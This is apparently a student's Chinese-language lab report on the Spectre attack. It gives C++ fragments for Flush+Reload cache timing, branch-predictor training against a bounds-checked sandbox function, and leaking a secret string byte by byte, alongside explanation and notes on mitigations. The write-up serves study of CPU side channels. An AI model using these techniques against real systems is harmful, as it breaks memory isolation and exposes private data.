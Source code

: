 ## Spectre Attack

### 一、实验总述

Spectre Attack （幽灵攻击）破坏了进程间和进程内的隔离。Spectre Attack 通过 cache 作为攻击旁路，利用 CPU out-of-order 的特性，可以成功观测到不具有访问权限部分的数据。幽灵攻击于 2017 年公布，存在于包括 AMD，intel 和 ARM 等诸多当代流行的处理器。

### 二、实验过程

#### Tasks 1 and 2: Side Channel Attacks via CPU Caches

这里和 Meltdown Attack 的原理其实大同小异，都是通过 CPU cache 作为旁路进行攻击。这一步的主要目标是找到一个区分 cache 访问时间和 memory 访问时间的 threshold，以及初步走一遍这个旁路攻击的过程。

这里是一个 `FLUSH+RELOAD` 的过程。清空 cache 是这么做的：

```c++
for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
```

reload 过程是记录了 memory read 前后 TSC 的差值，借此来记录该块内存的访问时间。

```c++
int junk = 0;
for(i = 0; i < 256; i++){
	addr = &array[i*4096 + DELTA];
	time1 = __rdtscp(&junk);
	junk = *addr;
	time2 = __rdtscp(&junk) - time1;
	if (time2 <= CACHE_HIT_THRESHOLD){
		printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
		printf("The Secret = %d.\n",i);
	}
}
```

从实验结果看到，其实 Cache 的访问速度还是快很多的，设置 `threshold = 100`。

![](./image/task1_1.png)

我们可以构造一个 victim function，这个函数使用目标值 (secret value) 作为 index 来访问 array，从而将对应的 block 读取到 CPU cache。为了找到这样一个 block，应该将 victim function 在 flush 和 reload 之间进行。

```c++
void victim() {
  temp = array[secret*4096 + DELTA];
}
```

这样就说明成功找到了，基本这一步还是很容易成功的。

![](./image/task2_1.png)

#### Task 3: Out-of-Order Execution and Branch Prediction

这里的原理仍然和 Meltdown Attack 十分相似，同样利用了 CPU 的 out-of-order execution 机制。不同的是，meltdown 攻击利用的是内存访问时的执行机制，而 spectre 利用的则是分支预测机制。这一点其实和我们在体系结构学的分支预测知识有一定关联。即在执行 branch condition 的判断过程中，CPU 被允许进行分支预测，预先执行一部分指令。例如：

```c++
void victim(size_t x) {
  if (x < size) {  
      temp = array[x * 4096 + DELTA];
  }
}
```

代码中，如果预测分支为 true，那么 temp = array[x * 4096 + DELTA] 这条指令会在 condition 的判断结束前执行。盗个图：

![](./image/task3_1.png)

这里接下来就和 Meltdown attack 异曲同工。优先执行的乱序指令在 cache 造成的影响不会被擦除，仍然可以在 reload 阶段观测到这一结果，在这里就可以用目标值（secret value）作为 index 访问对应的 cache block。

因此，成功就有几个关键点。第一个是在分支预测时进入 speculative execution。为了让 victim 函数执行时的分支预测为 true，以提前执行代码块内部的代码，需要进行一个分支预测的训练：

```c++
for (i = 0; i < 10; i++) victim(i);
```

第二个是尽可能让 size 的访问长一些，这里清空其在 cache 中对应的 block。

```c++
_mm_clflush(&size);
```

这样就说明上面的策略成功了。这一步成功率还是很高的，毕竟是最优化条件下的测试。

![](./image/task3_2.png)

#### Task 4: The Spectre Attack

本实验中，发动 Spectre Attack 的应用场景是进程内的数据访问。在 sandbox 的保护下，理论上只能访问指定区域的数据。如果这种访问权是根据 condition 语句来判断的，那么我们就有机会利用分支预测机制来执行本来没有权限的部分的源码，从而访问正常访问区域之外的数据。

![](./image/task4_2.png)

假设为了控制上面的 secret 部分不被访问，sandbox 提供保护的方式如下：

```c++
// Sandbox Function
uint8_t restrictedAccess(size_t x)
{
  if (x <= bound_upper && x >= bound_lower) {
     return buffer[x];
  } else {
     return 0;
  } 
}
```

为了访问到 secret 部分的数据，我们应该首先 train CPU 让其分支预测为 return buffer[x]。为了观测到这一效果，我们在 condition 条件执行完毕前争取将这一效果保存到 cache 中。

```c++
// Train the CPU to take the true branch inside restrictedAccess().
for (i = 0; i < 10; i++) restrictedAccess(i);
...
Flush
...
s = restrictedAccess(index_beyond);  
array[s*4096 + DELTA] += 88; 
```

在分支预测训练完成后，调用 secret 对应的 offset 即可。

```c++
size_t index_beyond = (size_t)(secret - (char*)buffer);
spectreAttack(index_beyond);
```

从实验结果上解释，具有可行性但成功率其实并不太高。

![](./image/task4_1.png)

#### Task 5: Improve the Attack Accuracy

这里要进一步去除结果中的噪声信息，本质上就是做了一个统计。不过源代码肯定要修改一下，否则最可能的值肯定还是 0。我的处理是不把第 0 块 block 作为返回值，即不把它加入统计计数。因为本身这个空字符不太可能出现在有效的 data 区域...如果 hit 值都基本为 0，那么我们也可以猜测这个地方的值是 0，并单独验证。

选取的这次实验结果的命中率还算比较高的。在尝试中最少的情况只有四次命中。

![](./image/task5_1.png)

另外可以注意到的是，源码中其实加了两行奇怪的代码。对于奇怪的 printf 输出函数提高正确率，我在做 os 的 lab 线程互斥那个也遇到过类似的情况，对于这个玄学原因我也解释不来，也许会（很小地）改变代码的紧凑程度。每次 attack 还是需要调节一下攻击间隔。亲测如果 usleep 被注释掉，命中率会降低不少。把间隔改成 100ms，命中率会有一定程度提高。

```c++
printf("*****\n");  // This seemly "useless" line is necessary for the attack to succeed
spectreAttack(index_beyond);
usleep(10);
reloadSideChannelImproved();
```

#### Task 6: Steal the Entire Secret String

main 里加个循环的事。不断更新传入的 index_beyond 即可。

```c++
for (int cnt = 0; cnt < strlen(secret); cnt++) {
    // ...
    spectreAttack(index_beyond + cnt);
    // ...
}
```

不过一次运行往往其实并不能保证把所有字符都解析出来，需要重复多次运行进行确认。

![](./image/task6_1.png)

### 三、实验心得

这个实验写的比较简短，主要还是因为其和熔断攻击十分相似。两者的主要区别在于，熔断攻击中的使用用例是内核空间的系统数据，这主要是因为其利用的是 CPU 的异常处理机制，这更多可以属于是 CPU 设计过程中的特定功能。而分支预测则宽泛的多，这是大多数 CPU 所必须实现的，而在分支预测的机制上又很难去解决的问题。另一方面，幽灵攻击主要针对的是软件层面（尤其是进程之内），对于如何有效地诱导分支预测进行训练。在查阅的资料中，对于幽灵攻击的修复集中处理的是软件层面，例如：降低计时精度来对抗计时攻击，调整分支的跳转目标等。但硬件层面（ CPU 的设计方法）的保护更加关键。这个实验还是比较简单，主要是理解熔断&幽灵两种攻击方式的核心思路。